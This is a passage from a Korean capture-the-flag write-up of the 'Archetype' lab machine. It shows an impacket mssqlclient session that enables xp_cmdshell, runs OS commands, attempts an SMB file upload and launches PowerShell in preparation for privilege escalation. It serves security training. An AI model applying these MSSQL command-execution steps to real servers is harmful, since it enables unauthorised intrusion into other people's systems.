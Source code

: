 ``` bash
    mask_query                 - mask query
```


xp_cmdshell을 실행하고자 하니 'turned off' 되어 있어 enable_xp_cmdshell을 통해 활성화 해주어야 한다. 그 후 실행 시 정상적으로 결과를 받아온다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir
output
--------------------------------------------------------------------------------
 Volume in drive C has no label.

 Volume Serial Number is 9565-0B4F

NULL

 Directory of C:\Windows\system32

```

해당 계정으로는 별 다른 권한이 없는 듯하다. 더 높은 권한 획득을 목표로 해야할 것 같다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell cd C:\Users\Administrator & cd
output
-------------------
Access is denied.
```

### File Transfer - Fail
권한 상승을 위해 파일을 전달할 방법으로 처음에 사용했던 smb를 다시 사용해보고자 했다. 하지만 쓰기 권한이 없어 실패한다.
``` bash
smb: \> put rfi.php rfi.php
NT_STATUS_ACCESS_DENIED opening remote file \rfi.php
```

다시 mssqlclient로 돌아와 어떤 방식으로 접근 가능할지 고민해보았고, 아래와 같이 powershell과 curl을 사용할 수 있음을 알 수 있다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell powershell
output
---------------------------------------------------------
Windows PowerShell

Copyright (C) Microsoft Corporation. All rights reserved.

NULL

PS C:\Windows\system32>
```
